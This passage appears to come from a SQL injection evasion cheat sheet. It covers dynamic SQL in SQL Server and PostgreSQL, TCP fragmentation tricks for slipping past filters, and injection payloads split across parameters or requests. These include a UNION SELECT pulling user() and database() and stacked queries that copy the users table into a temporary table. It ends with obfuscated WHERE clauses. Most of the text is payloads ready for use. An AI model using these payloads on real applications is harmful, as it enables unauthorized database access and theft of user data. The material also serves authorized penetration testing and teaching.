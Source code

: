 #### SQL Server Variables
```sql
-- Local variables
DECLARE @query NVARCHAR(100)
SET @query = N'SELECT * FROM users'
EXEC(@query)

-- Dynamic SQL
DECLARE @table NVARCHAR(50) = 'users'
EXEC('SELECT * FROM ' + @table)
```

#### PostgreSQL Variables
```sql
-- Session variables
SET my.custom_var = 'users';
SELECT current_setting('my.custom_var');

-- Dynamic queries
DO $$
BEGIN
  EXECUTE 'SELECT * FROM users';
END $$;
```

### IP Fragmentation Techniques

Network-level evasion through packet fragmentation.

#### TCP Fragmentation
- Split SQL injection payloads across multiple TCP segments
- Use small MTU sizes to force fragmentation
- Implement overlapping fragment attacks
- Utilize out-of-order packet delivery

#### Application-Layer Fragmentation
```sql
-- Split across multiple parameters
param1=') UNION SELECT
param2=user(), database() FROM
param3=dual--

-- Split across multiple requests
Request 1: '; CREATE TEMPORARY TABLE temp_table AS SELECT * FROM users--
Request 2: '; SELECT * FROM temp_table WHERE username LIKE 'admin'--
```

### Advanced Variation Techniques

#### Algorithmic Evasion
```sql
-- Bit manipulation
SELECT * FROM users WHERE id & 1 = 1

-- Mathematical transformations
SELECT * FROM users WHERE id = SQRT(POWER(2,2))

-- String algorithms
SELECT * FROM users WHERE username = REVERSE(REVERSE('admin'))
```
